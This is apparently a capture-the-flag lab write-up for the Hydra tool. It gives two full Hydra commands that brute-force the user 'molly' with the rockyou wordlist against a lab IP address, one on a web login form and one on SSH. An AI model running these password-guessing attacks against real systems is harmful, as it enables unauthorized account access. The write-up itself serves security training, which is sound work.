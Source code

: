 
# Hydra writeup

### Task 1 
#### Use Hydra to bruteforce molly's web password. What is flag 1?

- To complete first task we need to use Hydra tool. The command to bruteforce login to website will be:
```
**hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V**
```

### Task 2
- To complete second task we have to change our command to bruteforce SSH:
```
**hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 -t 4 ssh**
```



